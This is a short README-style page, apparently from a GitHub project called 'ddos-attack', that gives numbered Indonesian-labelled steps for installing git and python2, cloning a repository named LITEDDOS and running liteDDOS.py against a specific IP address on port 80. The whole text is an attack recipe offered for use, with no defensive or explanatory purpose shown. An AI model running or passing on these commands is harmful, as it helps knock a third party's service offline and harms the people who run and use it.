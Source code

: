 # ddos-attack
pkg install git

KE-EMPAT
$ pkg install python2

KELIMA🚨
$ git clone https://github.com/4L13199/LITEDDOS

KE-ENAM🚨
$ cd LITEDDOS

KETUJUH🚨
$ python2 liteDDOS.py  104.18.37.60 80 100
